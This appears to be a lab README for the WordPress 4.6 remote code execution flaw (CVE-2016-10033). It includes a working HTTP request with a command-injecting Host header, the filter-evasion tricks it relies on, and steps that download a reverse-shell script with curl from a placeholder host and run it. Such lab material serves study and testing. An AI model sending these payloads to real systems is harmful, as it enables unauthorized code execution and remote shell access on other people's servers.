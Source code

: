 # Wordpress 4.6 Remote Code Execution Vulnerability (PwnScriptum)

## Reference link

https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html

## Environment setup

```
docker compose build
docker compose up -d
```

Because Mysql initialization needs a little time, so please wait. After initialization succeeds, visit `http://your-ip:8080/`, set the administrator username and password to use it (the database is configured and not automatically updated).

## Exploit

Send the following packet, and you can see that `/tmp/success` has been successfully created:

```
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}success}} null)
Connection: close
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

wp-submit=Get+New+Password&redirect_to=&user_login=admin
```

We need to meet the following requirements to exploit this vulnerability:

1. The executed command cannot contain some special characters, such as `:`, `'`,`"`, etc.
2. The command will be converted to lowercase letters
3. The command needs to use an absolute path
4. Need know an existing user username

In order to solve these problems, the vulnerability author came up with `${substr{0}{1}{$spool_directory}}` instead of `/`, using `${substr{10}{1}{$tod_log}}` method of replacing spaces.

However, there are still a lot of characters can't be used. So we need to put the command on the third-party website, and then download it to `/tmp` directory by `curl -o /tmp/rce example.com/shell.sh`.

Therefore, the exploit process is follows:

- Write the exp of reverse shell and put it on a site. The exp have this following requirements:
  - the entire url's uppercase letters will be converted to lowercase, so the file path should not contain uppercase letters.
  - Access to this page can't be redirected because the parameter for follow redirect is `-L` (uppercase).
- Splice the command`/usr/bin/curl -o/tmp/rce example.com/shell.sh`and`/bin/bash /tmp/rce`.
- Convert the spaces and `/` in the command to `${substr{10}{1}{$tod_log}}` and `${substr{0}{1}{$spool_directory}}`.
- Produce the HTTP Host header:`target(any -froot@localhost -be ${run{command}} null)`.
- Send these two packets in order.

Here is [exploit.py](exploit.py)，change `target` to your target site，change `user` to an exist user name，change `shell_url` to your payload site.

Execute to get the shell:

![](1.png)
